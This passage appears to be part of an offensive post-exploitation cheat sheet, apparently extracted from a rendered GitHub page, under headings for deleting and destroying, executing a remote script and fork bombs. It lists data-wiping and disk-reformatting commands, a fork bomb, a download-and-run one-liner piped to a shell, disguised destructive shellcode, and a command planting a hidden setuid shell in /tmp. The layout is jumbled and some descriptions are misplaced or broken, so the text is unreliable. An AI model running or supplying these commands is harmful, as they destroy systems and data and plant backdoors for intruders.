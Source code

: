 ##### Deleting and Destroying

```
(If it is necessary to leave the machine inaccessible or unusable)
Note that this tends to be quite evident (as opposed to a simple exploitation that might go unnoticed for some time, even forever), and will most surely get you into troubles.

Oh, and you’re probably a jerk if you use any of the stuff below.
Command Description
rm -rf /  This will recursively try to delete all files.

```
char esp[] __attribute__ ((section(”.text”))) /* e.s.p release */ = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x2d\x63\x00"
```

"cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;";  Hex version of rm -rf /

How is this supposed to work?

mkfs.ext3 /dev/sda # Reformat the device mentioned, making recovery of files hard.
chmod -R 0000 / # Files are not lost but only accessible from another system, or a live distro. Nobody will be able to login, nor shut the computer down, and if forcibly shut down it won’t start again.
```

##### Execute a remote script

This command forces the download of a file and immediately its execution, can
be exploited easily using or reverse shell exploit

```
wget http://server/file.sh -O- | sh
```

##### Fork Bomb

The [in]famous "fork bomb". This command will cause your system to run a large
number of processes, until it "hangs". This can often lead to data loss (e.g.
if the user brutally reboots, or the OOM killer kills a process with unsaved
work). If left alone for enough time a system can eventually recover from a
fork bomb.

```
:(){:|:&};:
```

#### Windows Post-Exploitation Command List
